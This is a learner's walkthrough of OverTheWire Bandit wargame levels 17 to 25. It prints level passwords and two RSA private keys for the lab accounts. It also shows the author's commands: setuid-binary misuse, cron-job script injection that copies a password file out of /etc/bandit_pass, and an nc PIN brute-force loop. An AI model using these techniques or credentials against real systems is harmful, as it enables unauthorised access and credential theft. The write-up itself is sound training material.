YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit17
#+end_src

#+RESULTS:

*** 17

x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

Got the 'Byebye'.

Checking out the next Bandit, as instructed.
*** 18

I was being automatically disconnected from the server because there was a directive in ~.bashrc~ for that:

#+begin_quote
someone has modified .bashrc to log you out when you log in with SSH.
#+end_quote

Then I found out that I can run a command via SSH, and that it may run before Bash did his stuff:

#+begin_quote
When you connect via SSH and specify a command to execute directly (e.g., ssh user@host "ls -l"), a non-interactive shell is often used, and your ~/.bashrc or ~/.profile might not be fully sourced, depending on the shell and the command.
#+end_quote

I did this (intructions told about ~readme~):

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -l bandit18 "cat readme"
#+end_src

cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

**** 19

A princípio fiquei confuso.
Achei que o programa iria /modificar/ o proprietário do arquivo com a senha.

Quando rodei o comando para saber o que fazer (conforme instruído), recebi a seguinte saída:

#+begin_src shell
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
#+end_src

Eu não li a primeira linha da saída e achei que tinha que descobrir o meu ~id~ numérico do user ~bandit19~, pra daí usar o comando para setar esse usuário como proprietário do arquivo com a senha.

Depois eu acabei rodando o comando de novo e li a primeira linha.
Daí rodei:

#+begin_src shell
bandit19@bandit:/etc/bandit_pass$ ~/bandit20-do cat bandit20
#+end_src

e obtive a senha:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

O executável ~bandit20-do~ foi setado com o user bandit20 e o meu grupo.

#+begin_src shell
bandit19@bandit:~$ stat bandit20-do
  File: bandit20-do
  Size: 14884           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577828      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11020/bandit20)   Gid: (11019/bandit19)
                           ^^^         ^^^^^^^^    ^^^         ^^^^^^^^
Access: 2025-10-10 17:14:19.958793247 +0000
Modify: 2025-08-15 13:16:01.732011756 +0000
Change: 2025-08-15 13:16:01.734011763 +0000
 Birth: 2025-08-15 13:16:01.731011751 +0000
#+end_src

Como eu faço parte do grupo do arquivo, eu posso executá-lo e como ele é do 20, eu posso ler o arquivo da próxima senha, que é dele.
*** 20

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

#+begin_quote
There is a setuid binary in the homedirectory that does the following:
#+end_quote

The "setuid binary" is ~suconnect~:

#+begin_example
bandit20@bandit:~$ ls -lah
total 36K
drwxr-xr-x   2 root     root     4.0K Aug 15 13:16 .
drwxr-xr-x 150 root     root     4.0K Aug 15 13:18 ..
-rw-r--r--   1 root     root      220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root     3.8K Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root      807 Mar 31  2024 .profile
-rwsr-x---   1 bandit21 bandit20  16K Aug 15 13:16 suconnect

bandit20@bandit:~$ stat suconnect
  File: suconnect
  Size: 15608           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577830      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11021/bandit21)   Gid: (11020/bandit20)
Access: 2025-10-10 17:04:06.585772107 +0000
Modify: 2025-08-15 13:16:02.922063839 +0000
Change: 2025-08-15 13:16:02.923016449 +0000
 Birth: 2025-08-15 13:16:02.921016442 +0000
#+end_example

#+begin_quote
- it makes a connection to localhost on the port you specify as a commandline argument.
- It then reads a line of text from the connection and compares it to the password in the previous level (bandit20).
- If the password is correct, it will transmit the password for the next level (bandit21).
#+end_quote

Now, I am not sure if it
1. /connects/ to an existing connection.
2. /creates/ a new connection, or if it just

Let us try first to connect to an existing connection.
We get a list of the ports---the "simple" way:

#+begin_example
bandit20@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:21 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

For the bandit19 user is the same:

#+begin_example
bandit19@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

I tried connecting both ~suconnect~ and ~telnet~ to port 1111 (has "social" in the name); suconnect with '&'; and then send the password through telnet.
I expect to receive an answer from suconnect, because it is in the same "chat".

#+begin_src shell
telnet 1111 &
telnet 1111
Hello, there!
#+end_src

I didn't get the message to be echoed on the screen, as I expected.
It says something like "job /stopped/"; I wonder if I need to keep it running in the background.

Let's try a different port: 30000.

#+begin_src shell
bandit20@bandit:~$ ./suconnect 30000 &
[1] 69995
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Wrong! Please enter the correct current password.
Connection closed by foreign host.
#+end_src

I believe this is the same guy from a previous Bandit.
Let's test it.
That Bandit is 14.
Let's re-run it:

#+begin_src shell
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS
Correct!
8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

Connection closed by foreign host.
#+end_src

Yep!
It is the same, and it works for the user bandit20 too.

Apparently, two processes cannot listen to the same port (usually).
I'll try running suconnect as a daemon, and telnet as a Client.
I need a port.

These are all the ports available:

|          | bandit20@bandit:~$ nmap -p 0-65535 localhost                       |
|          | Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 17:37 UTC |
|          | Nmap scan report for localhost (127.0.0.1)                         |
|          | Host is up (0.000097s latency).                                    |
|          | Not shown: 65506 closed tcp ports (conn-refused)                   |
| WORKS?   | PORT      STATE SERVICE                                            |
|          | 22/tcp    open  ssh                                                |
|          | 1111/tcp  open  lmsocialserver                                     |
|          | 1840/tcp  open  netopia-vo2                                        |
|          | 2220/tcp  open  netiq                                              |
|          | 2221/tcp  open  rockwell-csp1                                      |
|          | 2223/tcp  open  rockwell-csp2                                      |
|          | 2224/tcp  open  efi-mg                                             |
|          | 2225/tcp  open  rcip-itu                                           |
|          | 2226/tcp  open  di-drm                                             |
|          | 2227/tcp  open  di-msg                                             |
|          | 2228/tcp  open  ehome-ms                                           |
|          | 2230/tcp  open  queueadm                                           |
|          | 2231/tcp  open  wimaxasncp                                         |
|          | 2232/tcp  open  ivs-video                                          |
|          | 4091/tcp  open  ewinstaller                                        |
|          | 4258/tcp  open  vrml-multi-use                                     |
|          | 4321/tcp  open  rwhois                                             |
|          | 5842/tcp  open  reversion                                          |
|          | 8000/tcp  open  http-alt                                           |
| bandit14 | 30000/tcp open  ndmps                                              |
| n        | 30001/tcp open  pago-services1                                     |
| bandit25 | 30002/tcp open  pago-services2                                     |
|          | 31046/tcp open  unknown                                            |
|          | 31518/tcp open  unknown                                            |
|          | 31691/tcp open  unknown                                            |
|          | 31790/tcp open  unknown                                            |
|          | 31960/tcp open  unknown                                            |
|          | 50001/tcp open  unknown                                            |
|          | 51790/tcp open  unknown                                            |
|          | 60917/tcp open  unknown                                            |

Given that bandit15 uses port 30000, and bandit25 uses port 30002, I bet the port I need for this Bandit is 30001.

I tried first running succonect on the background and sending the password via nc.
But it closes the connection.

#+begin_example
bandit20@bandit:~$ ./suconnect 30001 &
[1] 290352

bandit20@bandit:~$ nc localhost 30001
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
bandit20@bandit:~$                       <--- It closes the connection
#+end_example

I tried using ~screen~ to run the daemon, and another session to connect to it.

I created a dedicated session for ~suconnect~:

#+begin_src shell
screen -S suconnect
#+end_src

Then I started the ~suconnect~ daemon.

#+begin_src shell
./suconnect 30001
#+end_src

Then I detached the screen session with ~C-a d~.

Then I connected and sent the password using ~nc~.

#+begin_src shell
nc localhost 30001
#+end_src

I was disconnected, as expected.

Then I reattached to the ~screen~ running ~suconnect~ with

#+begin_src shell
screen -x suconnect
#+end_src

I expected to see the next password as the output there, but there was no output.

Future me: up until now, I had tried:
- ~suconnect~ as the daemon
  - using already opened ports

| Daemon    | Open new port | Use existing port |
|-----------+---------------+-------------------|
| suconnect |               | Doesn't work      |
| nc        |               |                   |

I tried connecting with ~suconnect~ to every port in the interval 0--65535.
It connected to some, but I couldn't tell if it was connecting to an open port or opening a new port.

Then I came across [[https://stackoverflow.com/a/79726454][this answer on Stackoverflow]] that teaches hot to solve it.
According to this answer, ~nc~ will be the daemon, and ~suconnect~ will be the client.
The answer instructs to use the parameters ~-lnvp~ for ~nc~.

I first tried to use port 30001.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30001
nc: Address already in use
#+end_example

Then I tried a port not reported by ~nmap~ above.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30003
Listening on 0.0.0.0 30003
#+end_example

Then I dettached and attached to ~suconnect~'s ~screen~.
I started ~suconnect~ there using the same port.

#+begin_src shell
./suconnect 30003
#+end_src

No output.

Back on ~nc~'s screen, I got the message of a received connection, probably from ~suconnect~.

#+begin_example
Connection received on 127.0.0.1 54356
#+end_example

I then sent the current password, and got the next one as a reply.

#+begin_example
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
#+end_example

Back on ~suconnect~'s ~screen~:

#+begin_example
Read: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Password matches, sending next password
#+end_example

After reading this from ~man lc~:

#+begin_example
-l      Listen for an incoming connection rather than initiating a con‐
        nection to a remote host.  The destination and port to listen on
        can be specified either as non-optional arguments, or with op‐
        tions -s and -p respectively.  Cannot be used together with -x or
        -z.  Additionally, any timeouts specified with the -w option are
        ignored.
#+end_example

I tried with just ~nc -l~, and it worked the same.

I also tried still using ~nc~ as the daemon, but without any parameter.

#+begin_example
bandit20@bandit:~$ nc 30003
nc: missing port number
#+end_example

Then with the host.

#+begin_example
bandit20@bandit:~$ nc localhost 30003
bandit20@bandit:~$
#+end_example

Apparently it did not create a connection.
I still tried starting ~suconnect~.

#+begin_example
bandit20@bandit:~$ ./suconnect 30003
Could not connect
#+end_example

This shows that it needs the ~-l~ parameter.

I looked at the manpage for the meaning of the ~nvp~ parameters.

#+begin_example
-n      Do not perform domain name resolution.  If a name cannot be re‐
        solved without DNS, an error will be reported.
#+end_example

I don't see why this would affect the command, as no host was used.

#+begin_example
-v      Produce more verbose output.
#+end_example

Non-essential.

#+begin_example
-p source_port
        Specify the source port nc should use, subject to privilege re‐
        strictions and availability.
#+end_example

Why does it work witout specifying 30003 as a /port/ with ~p~?
The only mandatory parameter so far is ~l~, which needs a destination and port.

From the manpage:

#+begin_example
In general, a destination must be specified, unless the -l option is given (in which case the local host is used).
#+end_example

Now, the only mandatory parameter is the port, so there is no reason to make ~-p~ mandatory.

EeoULMCra2q0dSkYj561DX7s1CpBuOBt
*** 21

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.
#+end_quote

The files in ~/etc/cron.d/~ are:

#+begin_example
bandit21@bandit:/etc/cron.d$ ls -lah
total 60K
drwxr-xr-x   2 root root 4.0K Aug 15 13:19 .
drwxr-xr-x 128 root root  12K Aug 29 21:51 ..
-r--r-----   1 root root   47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r--   1 root root  123 Aug 15 13:09 clean_tmp
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit22
-rw-r--r--   1 root root  122 Aug 15 13:16 cronjob_bandit23
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-r--r-----   1 root root   48 Aug 15 13:17 leviathan5_cleanup
-rw-------   1 root root  138 Aug 15 13:17 manpage3_resetpw_job
-rwx------   1 root root   52 Aug 15 13:19 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
#+end_example

To get the file contents I used ~cat~:

#+begin_example
bandit21@bandit:/etc/cron.d$ find . -exec echo {} \; -exec cat {} \; -exec echo "" \;
#+end_example

This guy is the most suspicious one.

#+begin_example
./sysstat
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
#+end_example

#+begin_quote
# The first element of the path is a directory where the debian-sa1
# script is located
#+end_quote

The contents of "the first element of the path", ~/usr/lib/sysstat/~, are:

#+begin_example
bandit21@bandit:/usr/lib/sysstat$ alias ls='ls -lah'
bandit21@bandit:/usr/lib/sysstat$ ls
total 104K
drwxr-xr-x  2 root root 4.0K Jul 31 10:05 .
drwxr-xr-x 86 root root 4.0K Aug 15 13:10 ..
-rwxr-xr-x  1 root root  446 Jan  9  2024 debian-sa1
-rwxr-xr-x  1 root root 1.8K Jan  9  2024 sa1
-rwxr-xr-x  1 root root 1.6K Jan  9  2024 sa2
-rwxr-xr-x  1 root root  82K Jan  9  2024 sadc
#+end_example

It didn't take anywhere interesting.

After some fiddling around:

#+begin_example
bandit21@bandit:~$ cat /cat /usr/bin/cronjob_bandit22.sh
cat: /cat: No such file or directory
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#+end_example

The passwords are in those ~/etc/bandit_pass/banditXX~ files.
This cron job is copying the password I need, ~bandit22~'s, to a temp file.
To see it, I did:

#+begin_example
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
#+end_example

and voilà:

tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
*** 22

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
#+end_quote

The contents of ~/etc/cron.d/~ should be the same.
I'll start by investigating ~bandit22~'s script.
This is the job for the bandit:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
​* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#+end_example

and this is the contents of that script:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat  /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
#+end_example

It uses the username ~bandit24~ (that would be gotten from ~whoami~) to create a target filename in a somewhat sophisticated process involving ~mdsum~.

I simulate the results of that command to get the script's real target:

#+begin_example
bandit22@bandit:/etc/cron.d$ myname=bandit23; mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:/etc/cron.d$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
#+end_example

Then I use that to ~cat~ the password from that target file:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat /tmp/$mytarget
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
#+end_example

Password obtained.

0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
*** 23

#+begin_example
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script.
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#+end_example

I go straight to ~bandit24~'s script:

#+begin_example
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
----------------------------------------------------------------------
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
#+end_example

I analyze it piece by piece:

#+begin_example
myname=$(whoami)
#+end_example

Sets ~myname~ to ~bandit24~.

#+begin_example
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        <<process each file>>
    fi
done
#+end_example

It processes each file in ~/var/spool/bandit24/foo~.
I tried reading the contents of that directory, but got ~Permission denied.~

The processing of each file occurs as follows:

~<<process each file>> +≡~

#+begin_src x :noweb-ref process each file
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
#+end_src

It runs /my/ scripts inside ~/var/spool/bandit24/foo~.
I will try to inject a script there that somehow gives me ~bandit24~'s password.

#+begin_src shell
#!/bin/bash
MY_PASS_FILE=/etc/bandit_pass/bandit24
TARGET=zoiaum

cat ${MY_PASS_FILE} > ${TARGET}
cp ${TARGET} /tmp
#+end_src

I created a file ~/tmp/zoinho.sh~, ~chmod +x~ it, and copied it to ~/var/spool/bandit24/foo~.
Then after typing this, I went to check if I got the password.

#+begin_example
bandit23@bandit:/tmp$ cat zoiaum
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
#+end_example

That file was created by ~bandit24~, and I was curious /why/ I have permission to /read/ it.
I ran a ~stat~ on it:

#+begin_example
bandit23@bandit:/tmp$ stat zoiaum
  File: zoiaum
  Size: 33              Blocks: 8          IO Block: 4096   regular file
Device: 259,1   Inode: 87017       Links: 1
Access: (0664/-rw-rw-r--)  Uid: (11024/bandit24)   Gid: (11024/bandit24)
Access: 2025-10-11 21:55:30.532352401 +0000
Modify: 2025-10-11 21:55:01.567169570 +0000
Change: 2025-10-11 21:55:01.567169570 +0000
 Birth: 2025-10-11 21:55:01.565351402 +0000
#+end_example

I can see that, the file was created with read permission for everybody, and that is why I am allowed to read it.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
*** 24

#+begin_quote
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
#+end_quote

I try first to connect with ~nc~ to port 30002.

#+begin_quote
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
#+end_quote

Ok, separate password and pincode by a space.

I go to the manpage for ideas on how to bruteforce it without creating new connections each time.

#+begin_example
nc localhost 30002 << EOF
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
EOF
#+end_example

This works, but I would have to create a huge input string with all the possible combinations.
Can I do it programatically?
Back to the manpage.

Couldn't find any way to build the combinations programatically without having to create a file.

My first idea was to use ~yes~ to create copies of the password, then ~seq~ for the pin codes, then another command to concatenate them in columns, and pass it to ~nc~'s connection to port 30002.

I could not find a command to concatenate the columns on Info coreutils.

Then googling I stumbled upon ~COMMAND | while read LINE; do echo $LINE~.

It works like this: ~COMMAND | while PREDICATE; BODY;~.
The redirection with | gives COMMAND's output to ~while~.
~while~ consumes that output one line per iteration.
PREDICATE is evaluated once per iteration.
In this case, it is the result of ~read LINE~.
~read~ is programmed to assign the value of its input to the variable LINE.
~read~ makes that line accessible via $LINE.
Note that it could be any other name, instead of "LINE"---it is just a variable name.

I saw that I could use this to concatenate the password with the pin codes with:

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002
#+end_example

I ran it in the server.

#+begin_example
bandit24@bandit:~$ seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

I was curious to know the correct pin code.
I redirected the output to a file, and counted the lines of that file, then tried guessing some pin codes in that neighborhood.
I could have done some math :P

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 > /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ wc -l /tmp/tmp.kPTagzvdT7
9166 /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ head /tmp/tmp.kPTagzvdT7
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
b

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9164
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9163
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9162
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

The pincode is 9162.

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
*** 25

#+begin_quote
Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not /bin/bash, but something else.
Find out what it is, how it works and how to break out of it.


Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
#+end_quote

There's a private key in bandit25's home dir:

~id_rsa_overthewire.org-bandit26~ ≡

#+begin_src ssh-key
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit26
#+end_src

After preparations above, used it to ~ssh~ as bandit26.

It connects, but closes right away:

#+begin_example
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
#+end_example

I believe I must find out about what the shell for bandit26 is.

~.bash_logout~ has some "privacy-increasing" measures...

#+begin_example
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
#+end_example

#+begin_example
bandit25@bandit:/home/bandit26$ /usr/bin/clear_console 
clear_console: terminal is not a console
#+end_example

Meh.

I could find out bandit26's login shell by looking at the default place: ~/etc/passwd~.

#+begin_example
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

The contents of ~/usr/bin/showtext~ are:

#+begin_example
bandit25@bandit:~$ cat /usr/bin/showtext 
----------------------------------------------------------------------
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
#+end_example

Se eu peço para o ssh executar um comando ao final, tipo

ssh {host port user id_rsa, etc} /bin/bash

ele fica travado.

Acho que é isso que o enunciado se refere quando diz

#+begin_quote
Find out what it is, how it works and how to break out of it.
#+end_quote

1. What it is
   1. ~/usr/bin/showtext~
2. How it works
   1. It opens a text file, shows its content on the screen, and quits.
      1. It uses ~exec~, and this means
         1. This prevents access to the shell


O ~exec~ roda o comando por cima do /usr/bin/showtext.

O exec é um shell buit-in:

#+begin_example
(base) rafa@bach:~$ type -a exec
exec is a shell builtin
#+end_example

#+begin_example
(base) rafa@bach:~$ help exec
exec: exec [-cl] [-a name] [command [argument ...]] [redirection ...]
    Replace the shell with the given command.
    
    Execute COMMAND, replacing this shell with the specified program.
    ARGUMENTS become the arguments to COMMAND.  If COMMAND is not specified,
    any redirections take effect in the current shell.
    
    Options:
      -a name   pass NAME as the zeroth argument to COMMAND
      -c        execute COMMAND with an empty environment
      -l        place a dash in the zeroth argument to COMMAND
    
    If the command cannot be executed, a non-interactive shell exits, unless
    the shell option `execfail' is set.
    
    Exit Status:
    Returns success unless COMMAND is not found or a redirection error occurs.
(base) rafa@bach:~$ 
#+end_example

According to [[https://serverfault.com/a/823466][this answer on Server Fault]], all commands executed via ssh are actually executed by the login shell.
This would mean

